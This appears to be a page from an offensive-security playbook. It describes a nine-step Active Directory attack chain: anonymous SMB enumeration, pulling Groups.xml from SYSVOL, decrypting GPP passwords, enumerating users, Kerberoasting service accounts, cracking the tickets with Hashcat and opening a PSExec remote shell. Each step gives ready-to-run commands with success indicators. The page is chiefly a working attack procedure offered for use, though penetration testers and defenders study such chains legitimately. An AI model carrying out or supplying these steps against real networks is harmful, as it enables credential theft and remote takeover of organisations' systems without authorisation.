

# SMB Enumeration to GPP Decryption, Kerberoasting, and PSExec Access

This attack chain demonstrates a realistic path in an Active Directory environment where an attacker with initial network access enumerates SMB shares to find exposed SYSVOL content, decrypts weak GPP passwords, uses those credentials for deeper enumeration including Kerberoasting service accounts, cracks obtained hashes, and finally achieves remote code execution via PSExec on a target Windows host. The scenario targets a Windows domain with misconfigured shares and legacy GPP usage, common in enterprise networks.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Verified |
| Total Steps | 9 |
| Execution Time | ~2-4 hours |
| Skill Level | Intermediate |
| Complexity | High |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/smbclient]]
- [[tools/SMBMap]]
- [[tools/gpp-decrypt]]
- [[tools/Impacket]]
- [[tools/Hashcat]]

### Target Environment

- Windows Active Directory domain
- SMB services (port 445) accessible
- Domain controller for AD queries
- SYSVOL share exposed

### Initial Access Requirements

- Network access to target hosts (no initial credentials needed for null sessions, but authenticated steps require domain user creds obtained from GPP)
- Attacker machine with Kali Linux or similar for tools

## Detailed Attack Procedures

### Step 1: Enumerate SMB Shares
procedure: [[procedures/list-smb-shares-null-session]]

**Objective**: Discover available SMB shares on the target without authentication to identify potentially exposed resources like SYSVOL.

**Instructions**: Use null session to query shares via smbclient or smbmap. Start with smbclient for basic listing:

```bash
smbclient -U '' -N -L $_TARGET_IP
```

Follow up with smbmap for permission details:

```bash
smbmap -u '' -p '' -H $_TARGET_IP
```

**Expected Output**: List of shares such as IPC$, ADMIN$, SYSVOL with access levels (e.g., READ ONLY for SYSVOL).

**Success Indicators**:
- SYSVOL or other shares listed
- No authentication required for enumeration

### Step 2: Browse SMB Share Interactively
procedure: [[procedures/browse-smb-share-interactive]]

**Objective**: Connect to discovered shares like SYSVOL to explore directory structure and identify sensitive files.

**Instructions**: Use smbclient to mount and browse the share anonymously if possible:

```bash
smbclient -U '' -N //$_TARGET_IP/SYSVOL
```

Once connected, use commands like 'ls' to list files and 'get' to download interesting ones.

**Expected Output**: Interactive SMB shell showing directories and files in SYSVOL, such as Groups.xml containing GPP data.

**Success Indicators**:
- Successful connection to share
- Files like Groups.xml visible and downloadable

### Step 3: Search and Download SMB Files by Name
procedure: [[procedures/search-and-download-smb-files-by-name]]

**Objective**: Recursively search shares for sensitive files (e.g., password files, configs) and automatically download matches.

**Instructions**: Target SYSVOL or other shares with smbmap, searching for keywords like 'password' or 'Groups':

```bash
smbmap -u '' -p '' -R SYSVOL -H $_TARGET_IP -A 'Groups.xml' -q
```

This will download matching files locally.

**Expected Output**: Downloaded files like Groups.xml with encrypted GPP strings.

**Success Indicators**:
- Matches found and files downloaded
- No access denied errors

### Step 4: Decrypt GPP Password from SYSVOL
procedure: [[procedures/decrypt-gpp-password-from-sysvol]]

**Objective**: Extract and decrypt weak passwords from Group Policy Preferences files using the known AES key.

**Instructions**: From the downloaded Groups.xml, extract the encrypted string (e.g., cPassword attribute) and decrypt:

```bash
gpp-decrypt '$_ENCRYPTED_CPASSWORD'
```

**Expected Output**: Plaintext password, e.g., 'MyUnclesAreMarioAndLuigi!!1!'.

**Success Indicators**:
- Valid plaintext password recovered
- Credentials valid for domain authentication

### Step 5: Enumerate Active Directory Users Authenticated
procedure: [[procedures/enumerate-active-directory-users-authenticated]]

**Objective**: Use obtained GPP credentials to query the domain controller for all AD users, identifying potential targets.

**Instructions**: Authenticate with impacket's GetADUsers.py using the new creds:

```bash
GetADUsers.py '$_DOMAIN/$_USERNAME:$_PASSWORD' -dc-ip $_DC_IP -all
```

**Expected Output**: Table of users with details like names, emails, last logon.

**Success Indicators**:
- Full user list retrieved
- No authentication failures

### Step 6: Kerberoast SPNs Authenticated Domain Query
procedure: [[procedures/kerberoast-spns-authenticated-domain-query]]

**Objective**: Request Kerberos TGS tickets for service accounts with SPNs to obtain crackable hashes.

**Instructions**: Use impacket's GetUserSPNs.py with domain creds to query and request tickets:

```bash
GetUserSPNs.py '$_DOMAIN/$_USERNAME:$_PASSWORD' -dc-ip $_DC_IP -request
```

Save output hashes for cracking.

**Expected Output**: List of SPNs and $krb5tgs$ hashes in Hashcat format.

**Success Indicators**:
- Multiple TGS tickets obtained
- Hashes exported successfully

### Step 7: Identify Hash Type with Hashcat
procedure: [[procedures/identify-hash-type-with-hashcat]]

**Objective**: Determine the hash mode for Kerberos tickets to prepare for cracking.

**Instructions**: Manually inspect hash format against Hashcat's example hashes (https://hashcat.net/wiki/doku.php?id=example_hashes). For $krb5tgs$, mode is 13100.

No direct command; use visual identification or tools like hashid if needed.

**Expected Output**: Identified mode, e.g., 'Kerberos 5 TGS-REP etype 23 (13100)'.

**Success Indicators**:
- Correct mode confirmed
- Hash ready for cracking tool

### Step 8: Brute Force Hashes with Hashcat Dictionary
procedure: [[procedures/brute-force-hashes-with-hashcat-dictionary]]

**Objective**: Crack the obtained Kerberos hashes using a wordlist to recover service account passwords.

**Instructions**: Run Hashcat with the identified mode and rockyou.txt:

```bash
hashcat -m 13100 $_KERBEROS_HASHES /usr/share/wordlists/rockyou.txt
```

**Expected Output**: Cracked passwords displayed, e.g., 'password: crackedpass'.

**Success Indicators**:
- At least one hash cracked
- Valid credentials for service account

### Step 9: PSExec Authenticated Remote Shell
procedure: [[procedures/psexec-authenticated-remote-shell]]

**Objective**: Use cracked service account creds to execute a remote shell on the target Windows host via PSExec.

**Instructions**: Invoke psexec.py with the new high-priv creds:

```bash
psexec.py $_DOMAIN/$_SERVICE_USER:$_CRACKED_PASS@$_TARGET_IP
```

**Expected Output**: Interactive cmd.exe shell on the remote system.

**Success Indicators**:
- Remote shell spawned
- Administrative commands executable

## Attack Chain Summary

### Key Achievements

- Discovered and accessed SMB shares anonymously
- Decrypted GPP passwords for domain auth
- Enumerated AD users and Kerberoasted SPNs
- Cracked service account hashes
- Achieved remote code execution via PSExec

---

*Last updated: 2023-05-30T20:16:15.078670+00:00*
